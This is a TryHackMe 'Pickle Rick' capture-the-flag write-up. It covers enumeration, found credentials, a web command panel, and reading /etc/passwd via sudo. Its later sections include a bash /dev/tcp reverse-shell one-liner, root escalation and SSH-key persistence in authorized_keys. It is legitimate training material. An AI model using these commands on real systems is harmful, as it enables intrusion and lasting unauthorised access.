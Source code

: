# TryHackMe Pickle Rick Write-up

This is a walkthrough of my process completing the Pickle Rick room on TryHackMe.com. I will be using the attack box provided by TryHackMe in this case which utilizes the root user, however, this is not the best practice. It is always recommended you perform commands with the least privilege possible. Because I also managed to break the machine (*several times*) I have randomly assigned the target IP address.

---

# Planning and Reconnaissance
*In this room, we are roleplaying as Morty from the hit TV show, "Rick and Morty".* 

Defining our scope: Rick has turned into a pickle and needs 3 ingredients for a potion to turn back into a human. Unfortunately, these ingredients are hidden on his computer, and Pickle Rick has forgotten his password. Our task is to retrieve his password, access his data, and locate the 3 separate files containing the 3 ingredients. 

Pickle Rick provided us with the target machine's IP address, "`10.10.200.141`".

# Scanning and Enumeration
We begin with NMap. Using the command "`nmap -Pn -vvv 10.10.200.141`" stealthily scans the first 1000 most common ports that might be active on a machine. This scan reveals ports 22 (**SSH**) and 80 (**HTTP**) are open, and likely running these services. 

![image](https://github.com/user-attachments/assets/40b3f0f6-f221-4b2e-9318-2dd3b9c80a5f)



Attempting the command "`ssh rick@10.10.200.141`" reveals password login via SSH is disabled, requiring a key. 

![image](https://github.com/user-attachments/assets/be74ac94-6fc0-43d7-b8e0-e32dd57a5d16)



Let's check if there is a website associated with that IP address, "HTTP://10.10.200.141"...

![image](https://github.com/user-attachments/assets/b3b64b84-130f-4f51-9410-44f043c5565b)

There is!



Now let's quickly investigate the website's HTML using the shortcut "CTRL + SHFT + I".

![image](https://github.com/user-attachments/assets/5b40a88a-60b9-42ea-b37e-d6e130caa739)

In the body of the HTML, we can see Rick left his username, "R1ckRul3s". 

Reviewing the directories of the webpage, we can see there are some files. 

![image](https://github.com/user-attachments/assets/cd8034c7-379f-440b-8c80-8cab2175792f)


Visiting the "/assets*" directory reveals some more files and that the website is using Apache, however, only one in particular may have some relevance, that being a portal. 

![image](https://github.com/user-attachments/assets/629ee3f1-ac20-44e8-84e1-1569dc7aa318)


Attempting to access "HTTP://10.10.*.*/portal", unfortunately, doesn't reveal anything so let's dig deeper.

![image](https://github.com/user-attachments/assets/adfdddff-82b6-4ae3-8626-6fdc030df218)

Using GoBuster to fuzz "`gobuster dir -u http://10.10.200.141 -w /usr/share/wordlists/SecLists/Fuzzing/fuzz-Bo0oM.txt`" has revealed there are "/login.php" and "/robots.txt" pages, also indicating the webpage itself is using PHP.

![image](https://github.com/user-attachments/assets/9ed5f817-30f7-4ac6-964f-be8f0acd7f21)
![image](https://github.com/user-attachments/assets/8e8c7793-ba88-4f7a-aff6-9369ff0dae83)

Visiting the page "HTTP://10.10.200.141/robots.txt" reveals an odd string, "Wubbalubbadubdub", possibly the password.

![image](https://github.com/user-attachments/assets/466cd2ea-2b57-4e15-917c-c7aa4416f0e6)


# Gaining Access

Now, let's try some good ol' credential stuffing within the login portal...

![image](https://github.com/user-attachments/assets/d4c8f6fa-a960-43ba-a116-2cbff5c57099)

Success!

![image](https://github.com/user-attachments/assets/4d771344-0662-43f1-add9-35e9b331ef36)


Now that we have access, let's see what else we can find. 

Unfortunately, it seems these other tabs don't lead anywhere. 

![image](https://github.com/user-attachments/assets/3bfd5477-2ba7-42b1-899d-06cd92640840)

Let's check the HTML of this page.

![image](https://github.com/user-attachments/assets/769d5483-3fc3-45ee-98b9-f4098165087f)

This reveals an encoded string, "Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkUxV1duaFZNakExVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0==". Let's see if we can decode this using the command "`echo Vm1wR1UxTnRWa2RUV0d4VFlrZFNjRlV3V2t0alJsWnlWbXQwVkcxS1NHVkliRmhoTVhCb1ZsWmFWMVpWTVVWaGVqQT0== | base64 -d`".

![image](https://github.com/user-attachments/assets/9743543c-8ff8-4af5-a7a4-6b0be367ef21)

Unfortunately, it seems this was just an elaborate rabbit hole set up by Rick.

Let's try the command field. Running "`uid`" reveals we are logged in as "www-data", and not Rick which might explain why we can't view the other pages.

![image](https://github.com/user-attachments/assets/e1ece65a-3b8d-43b8-a56a-236476666200)

Let's check our permissions with "`sudo -l`".

![image](https://github.com/user-attachments/assets/c8572de5-65dc-406b-a52f-b719f80fa08d)

It appears we have access to all commands via "`sudo`".

Let's check our current directory using "`pwd`" and what's in it using "ls -al" (Yes I use "`-al`").

![image](https://github.com/user-attachments/assets/65289e2b-3f7d-4c25-8750-710deeef034d)

![image](https://github.com/user-attachments/assets/b12ddf11-bf13-47e7-9e60-e55eb0b373c0)

There is the first ingredient, and a clue!

Unfortunately, it seems some commands like "`locate`", "`tail`", "`head`", and "`cat`" are prohibited even with "`sudo`", however, it seems this is a function of this webpage and not a lack of permissions.

![image](https://github.com/user-attachments/assets/13cb09ec-8907-4964-b9c4-fd6d0210f1af)


Let's see if we can bypass this by using some other commands. 

"`find`", "`less`", "`strings`", "`grep`", "`pwd`", "`ls`", "`uid`", and "`whoami`" work.

![image](https://github.com/user-attachments/assets/7a2a8260-3cb5-4add-9838-6bef308deeaf)

Success!


Visiting the specific directory in the website also works.

![image](https://github.com/user-attachments/assets/476fe758-7486-426e-9931-704c59536b7a)


Now that we have the first ingredient, let's see which other users might have access to this machine using "`sudo less /etc/passwd`" before moving on.

![image](https://github.com/user-attachments/assets/5de274be-72e3-4fc8-adac-cdea77d1e7df)


Now let's quickly find the last two ingredients using "`sudo ls ../../../*`".

Here we can see a file labeled "3rd.txt"

![image](https://github.com/user-attachments/assets/94e472c4-404a-442f-b84a-616172080a34)

![image](https://github.com/user-attachments/assets/e3734c5a-10d3-47f6-8022-1689526edcfa)


And a suspiciously named "rick" folder in the "home" directory.

![image](https://github.com/user-attachments/assets/2ad1fe8b-a427-42a0-a793-19921484972d)

![image](https://github.com/user-attachments/assets/e363cf6b-9f89-40ad-84f0-acad9e02da91)


And poof, just like that Rick is back to normal!


# Maintaining Access

However, because we are Evil Morty and we want to be able to access Rick's data in the future, let's see if we can create a [reverse shell](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet). We start by listening with "netcat", "`nc -nlvp 8080`". 

![image](https://github.com/user-attachments/assets/48a91638-d2a3-497f-bfe1-e029b65c7ffa)

Running the command "`bash -i >& /dev/tcp/10.0.*.*/8080 0>&1`" within the command filed does not work, however, when encapsulating first with "`bash -c ''`", it does work, "`bash -c 'bash -i >& /dev/tcp/10.0.*.*/8080 0>&1'`". 

![image](https://github.com/user-attachments/assets/d937e39d-0540-4ebc-84b8-5e9073a0218f)

Let's see if we can become root...

![image](https://github.com/user-attachments/assets/a8fb6697-4e48-4b93-a4d8-4a97b0e08075)

Success!

With this, we can simply generate a RSA key pair using "`sshkeygen rsa`"; 
copy our public key;
and execute the following command within the shell, "`sudo echo key >> /root/.ssh/authorized_keys && sudo echo key >> /home/ubuntu/.ssh/authorized_keys`".

Now let's test SSH login.

![image](https://github.com/user-attachments/assets/d234846e-61b2-46d1-8629-99ce7f20192d)

![image](https://github.com/user-attachments/assets/817cb8f7-4043-46e8-810a-5631e40ed260)

Success!

# Reporting

While SSH password login was disabled, this should be a reminder for Rick that security through obscurity isn't really security.

For improved security, we recommend Rick begin storing his username and password in an offline encrypted password manager, like KeePassXC, instead of the HTML and robots.txt files of his site. Additionally, Rick should separate the users, permissions, and access within his machine, as well as, disable root login via SSH or disable SSH login all together.

#

# That's all folks!
